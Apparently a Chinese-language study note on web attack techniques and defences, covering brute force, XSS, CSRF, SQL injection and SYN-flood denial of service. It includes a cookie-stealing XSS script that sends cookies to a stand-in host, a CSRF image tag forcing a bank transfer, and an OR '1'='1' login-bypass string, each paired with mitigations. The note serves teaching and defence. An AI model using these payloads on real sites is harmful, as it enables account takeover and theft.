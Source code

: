 ## 攻击技术
  ### 暴力破解
    连续性尝试+字典
    一个有效的字典可以大大的提高暴力破解的效率。for example：常用账号密码弱口令
    暴力破解防范措施：
    1、是否要求用户设置了复杂的密码
    2、是否每次尝试登陆都需要安全的验证码
    3、是否对用户尝试登陆、试错的行为进行限制（例如，当天密码输入错误超过8次将该账号锁定）
    4、双因素认证
    关于安全的验证码设计：
    验证码必须由后端生成，后端将验证码以图片的形式返回给前端，并把验证码文本放在缓存（例如redis缓存）当中，
    前端请求后端，带着表单的同时带着用户填写的验证码与缓存的验证码做比对。
  ### xss
    攻击原理
    例如有一个论坛网站，攻击者可以在上面发布以下内容：
    <script>location.href="//domain.com/?c=" + document.cookie</script>
    之后该内容可能会被渲染成以下形式：
    <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
    另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的
    Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个
    Cookie 登录被攻击者的账号了。
    危害
    1、窃取用户的 Cookie
    2、伪造虚假的输入表单骗取个人信息
    3、显示伪造的文章或者图片
    防范：过滤特殊字符
    例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Javascript 代码的运行。
    富文本编辑器允许用户输入 HTML 代码，就不能简单地将 < 等字符进行过滤了，极大地提高了
    XSS 攻击的可能性。
    富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，
    从而不允许有攻击性的 HTML 代码的输入。
  ### csrf
    攻击原理
    假如一家银行用以执行转账操作的 URL 地址如下：
    http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
    那么，一个恶意攻击者可以在另一个网站上放置如下代码：
    <img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
    如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000美元。
    
    防范：添加校验Token
    在访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造
    的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。
  ### sql注入
    概念
    服务器上的数据库运行非法的SQL语句，主要通过拼接来完成。
    攻击原理
    例如一个网站登录验证的 SQL 查询代码为：
    strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
    如果填入以下内容：
    userName = "1' OR '1'='1";
    passWord = "1' OR '1'='1";
    那么 SQL 查询字符串为：
    strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
    此时无需验证通过就能执行以下查询：
    strSQL = "SELECT * FROM users;"
    防范措施：
    使用orm框架，例如mybatis
    '#{}'方式能够很大程度防止sql注入。${}方式无法防止Sql注入。${}方式一般用于传入数据库对象，例如传入表名.
    MyBatis是如何做到SQL预编译的呢？其实在框架底层，是JDBC中的PreparedStatement类在起作用，
    PreparedStatement是我们很熟悉的Statement的子类，它的对象包含了编译好的SQL语句。这种
    “准备好”的方式不仅能提高安全性，而且在多次执行同一个SQL时，能够提高效率。原因是SQL已编
    译好，再次执行时无需再编译。
    for example:
    select * from student where student_name = #{name}
    预编译后,会动态解析成一个参数标记符?：
    select * from student where student_name = ?
    而使用${}在动态解析时候，会传入参数字符串
    select * from student where student_name = 'lyrics'
    '#{}'这种取值是编译好SQL语句再取值---->先编译后取值
    '${}'这种是取值以后再去编译SQL语句---->先取值后编译
  ### 拒绝服务攻击
   #### DoS 亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。
   #### DDos 指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。
      在三次握手过程中,Server发送SYN-ACK之后，收到Client的ACK之前的TCP连接
      称为半连接(half-open connect),此时Server处于SYN_RCVD状态,当收到ACK后,
      Server转入ESTABLISHED状态。SYN攻击就是Client在短时间内伪造大量不存在的IP地址,
      并向Server不断地发送SYN包,Server回复确认包,并等待Client的确认,由于源地址是
      不存在的,因此,Server需要不断重发直至超时,这些伪造的SYN包将产时间占用未连接
      队列,导致正常的SYN请求因为队列满而被丢弃,从而引起网络堵塞甚至系统瘫痪。SYN攻击时
      一种典型的DDoS攻击,检测SYN攻击的方式非常简单,即当Server上有大量半连接状态
      且源IP地址是随机的,则可以断定遭到SYN攻击了,使用如下命令可以让之现行:
      netstat -nap | grep SYN_RECV